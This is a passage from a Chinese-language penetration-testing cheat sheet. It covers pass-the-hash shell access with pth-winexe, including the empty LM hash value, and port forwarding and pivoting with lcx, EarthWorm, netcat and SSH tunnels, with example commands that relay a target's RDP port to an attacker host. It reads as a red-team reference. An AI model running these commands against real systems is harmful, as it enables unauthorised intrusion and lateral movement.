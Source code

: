     PTH 套件每个工具都针对 WIN 下响应的 EXE 文件,如使用 Pth-winexe 可以借助哈希执行程序得到一个 cmdshell:
    ```bash
    export SMBHASH=xxxxxx...:xxxx...
    pth-winexe -U administrator% //target-ip cmd
    # no password 需要替换成空的 LM hash 加密值: aad3b435b51404eeaad3b435b51404ee
    ```

---

## 隐匿攻击
### 端口转发

**文章**
- [渗透基础——端口转发与代理](https://www.4hou.com/posts/PQMA)

**工具**
- [cw1997/NATBypass](https://github.com/cw1997/NATBypass) - 一款 lcx 在 golang 下的实现
- [knownsec/rtcp](https://github.com/knownsec/rtcp) - 利用 Python 的 Socket 端口转发，用于远程维护
- [k8gege/PortTran](https://github.com/k8gege/PortTran) - .NET 端口转发工具,支持任意权限

- **ew**
    - [EarthWorm](http://rootkiter.com/EarthWorm/)
    - [idlefire/ew: 内网穿透(跨平台)](https://github.com/idlefire/ew)
    - [「SOCKS5代理」ew 正向、反向、多级级联](https://ai-sewell.me/2018/SOCKS5%E4%BB%A3%E7%90%86-ew-%E6%AD%A3%E5%90%91-%E5%8F%8D%E5%90%91-%E5%A4%9A%E7%BA%A7%E7%BA%A7%E8%81%94/)
    - [利用 ew 轻松穿透目标多级内网](https://klionsec.github.io/2017/08/05/ew-tunnel/)

- **lcx**
    ```bash
    lcx -slave 111.222.333.444 4567 127.0.0.1 3389  # On the targets
    lcx -listen 4567 33891                          # Attacker
    ```

- **netcat**
    - **tcp 端口连接**
        ```bash
        smtp: nc -nv 192.168.30.35 25 help
        pop3: nc -nv 192.168.30.35 110 user xxx pass xxx
        imap: nc -nv 192.168.30.35 143
        ```

    - **chat**
        ```bash
        nc -nvlp 4444                               # A 主机
        nc -nv 192.168.30.35 4444                   # B 主机
        ```

- **ssh隧道**
    - [SSH端口转发（本地转发、远程转发、动态转发）](https://www.cnblogs.com/zangfans/p/8848279.html)
    - [「端口转发」SSH 隧道](https://ai-sewell.me/2018/%E7%AB%AF%E5%8F%A3%E8%BD%AC%E5%8F%91-SSH-%E9%9A%A7%E9%81%93/)
    ```bash
    ssh -L 8080:127.0.0.1:80 root@192.168.1.7       # 本地转发
    ssh -R 8080:127.0.0.1:80 root@192.168.1.7       # 远程转发
    ssh -D 1080 root@sshserver                      # 动态端口转发
    ```
